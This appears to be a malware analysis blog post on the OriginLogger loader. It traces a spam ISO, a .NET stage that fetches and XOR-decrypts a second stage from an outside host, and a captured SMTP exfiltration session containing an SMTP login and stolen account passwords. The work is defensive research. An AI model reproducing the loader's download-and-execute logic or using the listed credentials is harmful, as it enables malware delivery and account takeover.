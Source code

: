 ```yaml
---
weight: 1
title: "OriginLogger Loader"
date: 2023-01-16T2:23:49+08:00
lastmod: 2023-01-16T2:23:49+08:00
draft: false
author: "Mohamed Adel"
authorLink: "https://d01a.github.io"
description: "OriginLogger: A look at OriginLogger Loader, extracting the final payload and network traffic analysis"
images: []
resources:
  - name: "featured-image"
    src: "featured-image.jpg"

tags: ["Malware Analysis", "Reverse Engineering"]
categories: ["Malware Analysis"]

lightgallery: true

toc:
  auto: false
---
```


## Conclusion

Origin Logger is a variant of Agent tesla, it is build on top of it and uses all of its capabilities. The malware is spreading using spam emails with a malicious attachments. The malware exfiltrate user accounts and passwords and other information from the infected machine.

## Infection through Email

the infection is started with spam email attached by `.iso` File

![](img/email.png)

the .ISO file contains only an executable with a PDF icon.

## Loader Analysis

the ISO file contains `.exe` file that is likely to be the fist loader. Dropping the executable in Detect It Easy

![](img/DIE_overview.png)

It is a .NET executable and the entropy is not high, Hopefully it will not be packed . So, I will use `dnSpyEx` to decompile the executable. Going to the Entry Point:

![](img/mainClass.png)

there is Three function calls. `EnableVisualStyles` and `SetCompatibleTextRenderingDefault` both do not contain anything useful as they are library functions and not written by the author.
the third part is creating a instance to `Form1` class.
The constructor contains two functions:

![](img/form1.png)

![](img/init_comp.png)

`InitializeComponent` is used to configure the form, it is not part of the malicious code so let's continue to `Socker` function.

![](img/socker.png)

by exploring the first function, it stores a random string in `Text` variable and calls `Hyper.Array()`.

![](img/trial.png)

`Hyper` class contains the information we are looking for, a link for the second stage.

![](img/hyper.png)

starting with `Array()` function which calls `GetBuffer()` . `GetBuffer()` just calls `Avrql()` and passing `http://savory.com[.]bd/sav/Ztvfo.png` as an argument.
`Avrql()` function downloads the file `Ztvfo.png` and stores it as an array in the memory and returns that Array. Returning to `Array()` function which takes the downloaded file in `buffer` variable and XOR it with the string `Sfhdjkpkowgnpcgoshb` and stores the XORed data in `list` array.
that's all for the hyper class, returning back to `Socker` to check the other function.

![](img/void.png)

`Void()` loads assembly data stored in `Tag` which is the file downloaded and XORed previously.
To run the loaded assembly, `Lion()` and `Ursa` are used, both Invokes different namespaces from the randomized string `this.richTextBox1.Text = "Gdbtshcw.Sdnceyzqa Vqyhbeqthicxedwtrnxrbzcq"`

## Downloading the second stage

using the PCAP file provided with the sample to get the second stage. we can use `wireshark` to do so.
to Download the file, navigate to `File > Export Objects > HTTP`

![](img/Ztvfo.png)

The Content of the this file is Encrypted using XOR cipher as we saw previously.
using the following script to decrypt the file

```python
import struct
s=[]
key = b"Sfhdjkpkowgnpcgoshb"
with open("Ztvfo.bin",'rb') as f:
    buff = bytearray(f.read())
    for i in range(len(buff)):
        s.append((buff[i] ^ ord(key[i%len(key)])))
with open("Ztvfo_out.bin",'wb') as f:
    f.write(struct.pack('664576B', *s))
```

## second stage Analysis

![](img/second_overview.png)

Uploading the extracted file to DIE, The executable is obfuscated using .NET Reactor.

## Network capture analysis

from the provided PCAP file of the traffic. Origin Logger exfiltrate the data using SMTP communication. the following is the content of the communication:

```
220-bh-41.webhostbox.net ESMTP Exim 4.95 #2 Thu, 05 Jan 2023 22:51:30 +0000
220-We do not authorize the use of this system to transport unsolicited,
220 and/or bulk e-mail.
EHLO DESKTOP-WIN11PC
250-bh-41.webhostbox.net Hello DESKTOP-WIN11PC [173.66.46.112]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-PIPE_CONNECT
250-AUTH PLAIN LOGIN
250-STARTTLS
250 HELP
AUTH login bWFya2V0aW5nQHRyYW5zZ2Vhci5pbg==
334 UGFzc3dvcmQ6
TUBzc3cwcmQjNjIx
235 Authentication succeeded
MAIL FROM:<marketing@transgear.in>
250 OK
RCPT TO:<zaritkt@arhitektondizajn.com>
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
MIME-Version: 1.0
From: marketing@transgear.in
To: zaritkt@arhitektondizajn.com
Date: 5 Jan 2023 22:51:31 +0000
Subject: PW_windows11user/DESKTOP-WIN11PC
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 01/05/2023 22:51:26<br>User Name: windows11user<br>Computer=
Name: DESKTOP-WIN11PC<br>OSFullName: Microsoft Windows 11 Pro<br=
>CPU: Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz<br>RAM: 32165.83 =
MB<br>IP Address: 173.66.46.112<br><hr>URL:imap://mail.windows11u=
sers.com<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APass=
word:EBj%U7-p@q4NW<br>=0D=0AApplication:Thunderbird<br>=0D=0A<hr>=
=0D=0AURL:smtp://mail.windows11users.com<br>=0D=0AUsername:admin@=
windows11users.com<br>=0D=0APassword:EBj%U7-p@q4NW<br>=0D=0AApplicat=
ion:Thunderbird<br>=0D=0A<hr>=0D=0AURL:webmail.windows11users.com=
<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword:EBj=
%U7-p@q4NW<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL=
:https://login.us.coca-cola.com/<br>=0D=0AUsername:admin@windows1=
1users.com<br>=0D=0APassword:Zp61-7$r#J_iLpCYV&jKr<br>=0D=0AAppli=
cation:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https://www.linkedin.=
com/<br>=0D=0AUsername:admin@windows11users.com<br>=0D=0APassword=
:TqQPvG#0g%$ga_q51<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<h=
r>=0D=0AURL:https://www.amazon.com/ap/signin<br>=0D=0AUsername:ad=
min@windows11users.com<br>=0D=0APassword:3Fo76#PTf4P$Im!9mkLso69e=
T<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0AURL:https=
://www.target.com/login<br>=0D=0AUsername:windows11user<br>=0D=0APas=
sword:c$Kl3wO!e#i7A&!L2<br>=0D=0AApplication:Edge Chromium<br>=0D=0A=
<hr>=0D=0AURL:https://myaccount.nytimes.com/auth/login<br>=0D=0AU=
sername:admin@windows11users.com<br>=0D=0APassword:u*N21Or650yBps=
p45awSa<br>=0D=0AApplication:Edge Chromium<br>=0D=0A<hr>=0D=0A
.
250 OK id=1pDZ59-000wFk-B4
QUIT
221 bh-41.webhostbox.net closing connection
```

the exfiltrated data
| type of data | example from the PCAP |
| -------------------------- | ----------------------------------------------------------------------------------------------------------- |
| Current Time | 01/05/2023 22:51:26 |
| OS Full Name | Microsoft Windows 11 Pro |
| CPU | Intel(R) Core(TM) i5-13600K CPU @ 5.10GHz |
| RAM | 32165.83 MB |
| IP Address | 173.66.46.112 |
| URL | imap[://]mail.windows11users[.]com |
| Username | admin@windows11users[.]com |
| Password | EBj%U7-p@q4NW |
| Application: Edge Chromium | AURL=https[://]login.us.coca-cola[.]com/ Username:admin@windows11users[.]com Password:Zp61-7$r#J_iLpCYV&jKr |

it steals the username and password of the user and send data of the current machine and steals user accounts from different locations like thunderbird and edge browser.

## References

https://www.malware-traffic-analysis.net/2023/01/05/index.html

## File hashes

- 926a3142270a52f8afb93490d5dd21f0ca23bc0815ee6630068cf6409d8ee448
- 5016ba92afac1c2b2a2a6b17a09406869bd6f58cfe680f25030af1a1ba1c29a2
- 90d977ca0a3331d78005912d2b191d26e33fa2c6ef17602d6173164ba83fd85e
- 3883d374ba0736254a89e310b86f3c3769adcaed471b103b5c0a8a2f16cf5c8d
